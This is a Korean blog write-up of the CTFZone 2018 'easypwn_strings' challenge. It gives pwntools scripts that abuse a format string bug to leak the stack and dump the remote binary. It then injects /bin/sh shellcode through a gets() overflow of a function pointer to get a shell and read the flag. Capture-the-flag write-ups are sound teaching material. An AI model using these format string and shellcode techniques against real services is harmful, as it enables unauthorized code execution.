 ```yaml
---
layout: post
title: "[CTFZone 2018] easypwn_strings Write-up"
image: /img/ctfzone_2018.JPG
tags: [CTF, write-up, pwnable]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`pwnable` `FSB`

---
### Vuln

> nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234

```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
```
1번 메뉴를 선택하고 문자열을 입력하면 문자열의 길이가 출력되고, 3번 메뉴를 선택하고 문자열과 숫자를 입력하면 해당 문자열의 뒤에서 입력한 숫자 만큼을 잘라서 출력해준다. 2번 메뉴는 구현되어 있지 않았다.
```
You choise - 3
	Use str int
	good choise
	Set string:
%x
	Set number:
0
	Delete 0 ending symbols
	Result:
ff906700
```
3번 메뉴에서 문자열을 출력할 때 `포맷 스트링 버그 (FSB)` 가 발생한다.
<br><br><br>

### Solve
포맷 스트링 버그를 이용해서 스택에 있는 값들을 출력한다.
```python
from pwn import *

for j in range(0, 20):
        r = remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        test = ''
        for i in range(j*20,j*20+20):
                test += '%%%d$p.' % i

        print test
        r.sendline(test)
        r.recvuntil(':')
        r.sendline('0')
        r.recvuntil(':')
        r.recvuntil('\n')
        d = r.recvuntil('\n')
        print d
```
```
[+] Opening connection to pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one on port 1234: Done
%200$p.%201$p.%202$p.%203$p.%204$p.%205$p.%206$p.%207$p.%208$p.%209$p.%210$p.%211$p.%212$p.%213$p.%214$p.%215$p.%216$p.%217$p.%218$p.%219$p.
0x80496d4.0xf77b7000.0xffeac818.0x8048e07.0x1.0xffeac8c4.0x3.0x33.0xf77b73dc.0xffeac830.(nil).0xf761d637.0xf77b7000.0xf77b7000.(nil).0xf761d637.0x1.0xffeac8c4.0xffeac8cc.(nil).
```
출력 된 값들을 살펴보면 0x80496d4 나 0x8048e07 과 같이 코드 영역의 주소로 보이는 값들을 발견할 수 있었고, 이를 토대로 <span style="color:#cf3030">0x8048000</span> 을 <span style="color:#cf3030">base address</span> 로 설정하여 바이너리 덤프를 시도했다.
<br>
그 결과는 다음과 같다.
```
0000000: 0045 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 2086 0408 3400 0000  ........ ...4...
0000020: 6c3b 0000 0000 0000 3400 2000 0700 2800  l;......4. ...(.
0000030: 2000 1d00 0600 0000 3400 0000 3480 0408   .......4...4...
0000040: 3480 0408 e000 0000 e000 0000 0500 0000  4...............
0000050: 0400 0000 0300 0000 1401 0000 1481 0408  ................
...
```
ELF 시그니쳐로 보이는 `00(7F)45 4c46` 로 시작된다. 이렇게 쭉 덤프를 뜨면 되는데 중간에 null 바이트가 많아서 너무 오래걸린다. ELF 헤더 중 0x18 오프셋 부분을 보면 <span style="color:#cf3030">0x08048620</span> 이라는 값이 쓰여있는데 이 값이 <span style="color:#cf3030">엔트리 포인트</span>의 메모리 주소이다.<br>
이 주소를 시작으로 코드 섹션만 덤프 떠올 수 있다.
```python
from pwn import *

def conn():
        return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        leak_part = "|%19${}|".format(frmt)
        out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
        r.sendline(out)
        r.sendline('0')
        r.recvuntil('Result:')
        return r.recvuntil("|A")[:-2].split("|")[1]

        start_addr = 0x8048620

        while True:
                try:
                        fd = open("dumped_file","a")
                        r = conn()
                        data = dump(start_addr,'s')
                        print "|0x%08x|%s|" % (start_addr,data)
                        if data == "(null)" or data == "":
                                fd.write("\x00")
                                start_addr += 1
                        else:
                                fd.write(data+"\x00")
                                start_addr += len(data)+1
                        fd.close()
                except:
                        print "[!] execption"
                        break
```
<img src="/img/ctfzone_easypwn_1.PNG" class="effect">
<br>

덤프 뜬 바이너리를 IDA로 열어보면 `1, 2, 3` 메뉴 외에 `X, T, S` 라는 메뉴가 있는 것을 확인 할 수 있다. 하나씩 사용해보면 되는데 그 중에서도 `T` 메뉴를 사용하면 바이너리와 라이브러리를 다운 받을 수 있는 링크를 알려준다.. 개꿀
```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
	T
You choise - T
	Cheat ^^
	Are you surprised?? (y or n)
y
https://ctf.bi.zone/files/babypwn
https://ctf.bi.zone/files/babylibc
```
<br>

이제 IDA로 다시 분석!
<img src="/img/ctfzone_easypwn_2.PNG" class="effect">
처음엔 `S` 를 수상하게 보고 포맷 스트링 버그를 이용해서 0x80493E0 의 값을 조작하려고 했지만 메뉴 하나를 실행시키면 프로그램이 끝나는 구조라서 그럴 수 없었다. 대신 `X` 혹은 `T` 메뉴를 사용 했을 시 `gets()` 함수를 통해서 `overflow` 가 발생한다. 0x80492E0 에 값을 쓸 수 있는데, 그 뒤쪽에 있는 0x80493E0 이 <span style="color:#cf3030">함수 포인터</span>로 사용된다. 0x80492E0 에 쉘 코드를 올리고 overflow 를 발생시켜 0x80493E0 을 쉘 코드의 주소로 바꿔주면 끝! (rwx 권한이 있었다)
<br>

```python
from pwn import *

def conn():
	return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

r = conn()
r.sendline("T")
r.sendline(("y"+shellcode).ljust(256,"\x90")+p32(0x80492e0+1))

r.interactive()

```
```
Let's choose string operation!
    1. StrLen
    2. SubStrRemove
    3. StrRemoveLastSymbols
 You choise - T
    Cheat ^^
    Are you surprised?? (y or n)
$ ls
flag.txt
main.c
strings
strings.sh
$ cat flag.txt
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
```
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
<br>

### Ref
https://www.youtube.com/watch?v=XuzuFUGuQv0
https://ko.wikipedia.org/wiki/ELF_%ED%8C%8C%EC%9D%BC_%ED%98%95%EC%8B%9D
